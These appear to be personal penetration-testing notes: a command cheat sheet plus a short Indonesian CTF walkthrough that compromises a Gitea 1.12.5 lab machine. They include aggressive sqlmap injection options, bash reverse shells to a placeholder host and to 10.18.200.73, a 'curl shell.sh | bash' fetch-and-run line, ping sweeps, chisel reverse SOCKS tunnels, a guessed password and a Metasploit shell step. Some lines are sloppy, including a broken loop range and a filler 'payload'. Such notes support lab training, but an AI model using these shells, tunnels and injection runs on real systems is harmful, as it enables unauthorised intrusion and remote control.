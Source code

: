 Command
- nmap -sC -sV -oN enum.nmap -p- -T4 --min-rate=1000 -v  (nmapx)
- dirb http://10.1.2.152 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o diretory.dirb (dirbx)
- sqlmap -r inject --dbs --level 4 --risk 3 --threads 10 --tamper=space2comment,between,randomcase (sqlmapx)

- nc -lvnp 9001
- python -c 'import pty;pty.spawn("/bin/bash")';
- bash -c 'bash -i >& /dev/tcp/CHANGE-THIS/9001 0>&1'
- sudo python3 -m http.server 80
- curl 127.0.0.1/shell.sh | bash
- ps -efa --forest

for i in $(seq 254); do ping 10.1.2.${i} -c1 -W1 & done | grep from
for i in {1.255}; do (ping -c 1 10.1.2.${i} | grep "bytes from"&); done

for i in $(seq 254); do ping 10.1.2.${i} -c1 -W1 & done | grep from
chisel server --socks5 --reverse
./chisel client --fingerprint &lt;Fingerprint&gt; &lt;Attacker IP&gt;:8080 R:8000:&lt;Internal IP&gt;:80

./chisel client --fingerprint &lt;Fingerprint&gt; &lt;Attacker IP&gt;:8080 R:socks

Payload

```
test
asda
```

Set alias

- nmap
- buka port 3000 gitea
- coba guessing password dengan username yang ada
username: askira
password: askira
- mencari kerentanan pada layanan gitea versi 1.12.5
- menggunakan module metasploit untuk memasukan reverse shell
    - listening port 9001 pada local machine
    nc -lvnp 9001
    - memasukan code reverse shell pada target machine
    bash -c 'bash -i >& /dev/tcp/10.18.200.73/9001 0>&1'
    - mengambil flag user.txt
    ![Alt text](images/user.png)
